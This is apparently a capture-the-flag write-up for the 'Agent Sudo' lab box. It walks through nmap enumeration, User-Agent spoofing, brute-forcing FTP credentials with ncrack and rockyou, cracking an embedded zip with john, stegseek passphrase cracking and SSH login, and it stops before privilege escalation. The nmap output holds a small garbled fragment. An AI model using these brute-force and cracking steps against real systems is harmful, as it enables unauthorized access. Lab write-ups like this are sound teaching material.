 # Agent Sudo
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Resolution

### 1. Enumerate
Let's start enumerating the machine using nmap:
```
Nmap scan report for 10.10.130.231
Host is up (0.081s latency).
Not shown: 997 clFrom,<br>
Agent Rosed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Iteresting, we have a web server, an FTP server, and an SSH agent.\
Navigating to the web page, we get the following message
> Dear agents,
>
> Use your own codename as user-agent to access the site.
>
> From,\
> Agent R

The message mentions the `User-Agent` http header. There should be a perticular codename that will give us access to more pages in the web app.
Back to the hint in the room description, `C` is the actual user-agent that should be used. We can use many tools to edit the user-agent header; a browser plugin, burpsuite, curl, ...

Once the request made, we get redirected to `/agent_C_attention.php`:
> Attention chris,
>
> Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
>
> From,\
> Agent R

Our agent's name is Chris.

### 2. Hash-cracking and brute force

Chris' password is weak as agent J said, so it's most likely that we would be able to crack it using a standard wordlist attack on the FTP server.
We can use different tools to do so, here is the command snippet using `ncrack` alongside the `rockyou` wordlist (username.txt contains one entry which is chris):
```
$ ncrack -U username.txt -P /usr/share/wordlists/rockyou.txt ftp://10.10.130.231 

Starting Ncrack 0.7 ( http://ncrack.org ) at 2024-02-15 19:13 UTC
Stats: 0:00:59 elapsed; 0 services completed (1 total)
Rate: 8.70; Found: 1; About 0.00% done
(press 'p' to list discovered credentials)
Discovered credentials for ftp on 10.10.130.231 21/tcp:
10.10.130.231 21/tcp ftp: 'chris' 'crystal'
caught SIGINT signal, cleaning up
```

Found the password of chris. Now we can connect to the server and get all the files out there.\
```
$ ftp chris@10.10.130.231

Connected to 10.10.130.231.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||45850|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```

First intersting file should be the message to agent J:

> Dear agent J,
>
> All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.
>
> From,\
> Agent C

The password of J is somewhere in on of the pictures. This technique is called steganography. We can use `binwalk` to extract (`-e`) embded files and executable code:

```
$ binwalk cutie.png   

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

$ binwalk -e cutie.png
```

`binwalk` creates a folder with all the extracted data. The Zip archive is protected with a password which we can use `john` to brute force: First, get the hash of the password from the archive using `zip2john`, and second, launch the brute force attack:
```
$ zip2john 8702.zip > zip.hash

$ john zip.hash
```

After some time we get the password `alien`. Note that `john` used a default wordlist and that we can specify our own wordlist using `-wordlist:FILE`.
Inside the arhive, we find the following file `To_agentR.txt`:

> Agent C,
>
> We need to send the picture to 'QXJlYTUx' as soon as possible!
> 
> By,\
> Agent R

Nothing interresting but let's keep the info for the moment.\
Next, a steg(steganography) password is demanded. There are many tools to do so, again, by brute force. `stegseek` is one of them.
```
$ stegseek cutie.png /usr/share/wordlists/fasttrack.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[!] error: the file format of the file "cutie.png" is not supported.

$ stegseek cute-alien.jpg /usr/share/wordlists/rockyou.txt  
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"           
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```

In addition to the passphrase, `stegseek` outputs the embedded file too, in this case `message.txt`:
> Hi james,
>
> Glad you find this message. Your login password is hackerrules!
>
> Don't ask me why the password look cheesy, ask agent R who set this password for you.
>
> Your buddy,\
> chris

### 3. Capture the user flag

Now that we have access to James credentials, we can connect to the machine via ssh.\
Once there, first thing we find is the user flag. Then, another alien picture `Alien_autospy.jpg`.

For those who have no idea about the context, me included, the hint is important. In short, I refer you to the Foxnews article intitled "Filmmaker reveals how he faked infamous 'Roswell alien autopsy' footage in a London apartment".

### 4. Privilege escalation

TBC











